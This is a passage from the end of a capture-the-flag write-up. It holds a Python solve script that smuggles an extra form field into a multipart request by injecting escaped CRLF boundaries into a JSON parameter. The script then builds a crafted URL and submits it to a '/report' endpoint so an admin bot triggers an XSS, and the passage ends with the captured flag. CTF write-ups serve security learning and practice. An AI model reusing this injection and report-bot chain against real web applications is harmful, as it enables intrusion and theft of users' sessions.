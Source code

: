 ```python
    'custom': '{"1":"retrieve","2\\"\\r\\n\\r\\nmediaparser\\r\\n--GP_HEAVEN\\r\\nContent-Disposition: form-data; name=\\"3":"head_end","4":"faves","5":"footer","6":"footer","0a":"csp"}'
})

f1url = urllib.parse.urlparse(urllib.parse.urljoin(url, r.headers['Location']))

f1path = f1url.path
f1query = urllib.parse.parse_qs(f1url.query)

r = requests.get(urllib.parse.urljoin(url, f"/api/get-car/{f1query['F1'][0]}"))

imgid = r.json()['img_id']
params = {
    "F1": f"\media\{imgid}"
}

xssurl = f'{urllib.parse.urljoin(url, f1path)}?{urllib.parse.urlencode(params)}'

requests.post(urllib.parse.urljoin(url, "/report"), data={
    'url': xssurl
})
```

## Flag

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/306d7180-00af-452e-a4dd-d959b8562b4c)

`CTF{Car_go_FAST_hEART_Go_FASTER!!!}`

